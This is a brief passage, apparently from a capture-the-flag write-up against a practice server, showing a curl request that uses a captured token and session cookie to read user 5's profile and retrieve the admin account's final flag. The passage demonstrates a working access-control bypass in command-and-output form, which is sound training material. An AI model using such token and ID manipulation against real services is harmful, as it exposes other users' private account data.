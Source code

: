 We can check for the info of user 5:
`curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: $ctfc" http://server.vulnbegin.co.uk/user/5/info`
```
{"id":5,"username":"admin","description":"admin for the server","flag":"[^FLAG^3D82BE780F46EE86CE060D23E6E80639^FLAG^]"}
``` 

We have the last flag!